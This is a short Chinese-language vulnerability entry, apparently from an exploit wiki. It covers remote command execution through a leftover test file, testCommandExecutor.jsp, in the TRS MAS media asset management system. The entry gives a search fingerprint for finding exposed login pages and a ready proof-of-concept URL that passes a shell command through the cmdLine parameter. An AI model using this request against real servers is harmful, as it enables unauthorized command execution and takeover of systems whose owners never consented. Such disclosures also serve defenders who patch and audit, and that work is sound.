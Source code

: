 # 拓尔思 MAS testCommandExecutor.jsp 远程命令执行漏洞

## 漏洞描述

拓尔思 MAS testCommandExecutor.jsp测试文件存在远程命令执行漏洞，当网站运维者未删除测试文件时，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>拓尔思-MAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"MAS媒资管理系统登录页面"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1651159019976-6d273e4e-49cc-4141-8ffd-a4618948b494.png)

验证POC

```java
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

![img](/assets/PeiQi-Wiki/img/1651194412574-f6cbf86c-77a7-4495-afad-8daa67cdc968.png)
